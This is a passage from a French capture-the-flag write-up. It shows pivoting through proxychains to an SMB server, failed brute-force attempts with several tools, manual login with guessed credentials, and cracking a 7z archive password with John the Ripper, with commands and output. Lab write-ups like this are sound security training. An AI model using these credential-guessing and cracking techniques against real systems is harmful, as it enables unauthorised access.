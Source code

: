 Sans l'utilisation de l'option *-q* de Proxychains on peut voir le cheminement des paquets :)  

Malheureusement l'accès aux partages est protégé. J'ai tenté de bruteforcer les accès avec les outils et résultats suivants :  

* Hydra : n'a rien trouvé
* Nmap (via le script smb-brute) : n'a rien trouvé
* CrackMapExec : a donné des faux positifs
* [smb-brute-force](https://github.com/curesec/tools/tree/master/smb) de curesec : faux positifs
* Medusa : faux positifs
* [Godance](https://github.com/joohoi/godance) : faux positifs

Et en testant à la mano avec smbclient :  

```plain
$ ./proxychains4 -f proxychains.conf smbclient -U "larryjr" //172.31.200.204/users
[proxychains] config file found: proxychains.conf
[proxychains] preloading ./libproxychains4.so
[proxychains] DLL init: proxychains-ng 4.15-git-1-g7de7dd0
Password for [WORKGROUP\larryjr]:
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.31.200.204:445  ...  OK
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Oct 28 21:52:38 2018
  ..                                  D        0  Sun Oct 28 21:38:52 2018
  Flag.txt                            A       18  Sun Oct 28 21:52:53 2018

                41019616 blocks of size 1024. 26189980 blocks available
smb: \> lcd /tmp
smb: \> get Flag.txt
getting file \Flag.txt of size 18 as Flag.txt (0,8 KiloBytes/sec) (average 0,8 KiloBytes/sec)
```

Ca passe avec *larryjr* / *larryjr*... On est en 2022 et aucun des outils de bruteforce n'est capable de casser du SMB, ça promet (il manque Metasploit que je n'ai pas testé).  

Le flag obtenu est *{{tryharder:1337}}*

Sur le partage *companyInfo* on a trois fichiers :  

```plain
  Flag.txt                            A       18  Sun Oct 28 21:55:05 2018
  moreinfo.7z                         A      226  Sun Oct 28 22:02:24 2018
  hint.txt                            A       93  Sun Oct 28 22:03:08 2018
```

Un flag (*{{tryharder:2020}}*) et une notice explicative :  

> The password is like {{tryharder:xx}} where xx are two numbers...  
> 
> The password is the flag!!

Comme on s'en doutait l'archive 7z restante est protégée par mot de passe. J'utilise l'utilitaire 7z2john puis je casse en générant les mots de passe possibles à la volée :  

```plain
$ python3 -c 'for i in range(100): print("{{tryharder:" + str(i) + "}}")' | ./john --stdin /tmp/hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip archive encryption [SHA256 128/128 AVX 4x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 12 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Cost 4 (data length) is 68 for all loaded hashes
Will run 4 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
{{tryharder:77}} (moreinfo.7z)     
1g 0:00:00:03  0.3058g/s 24.46p/s 24.46c/s 24.46C/s {{tryharder:64}}..{{tryharder:79}}
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```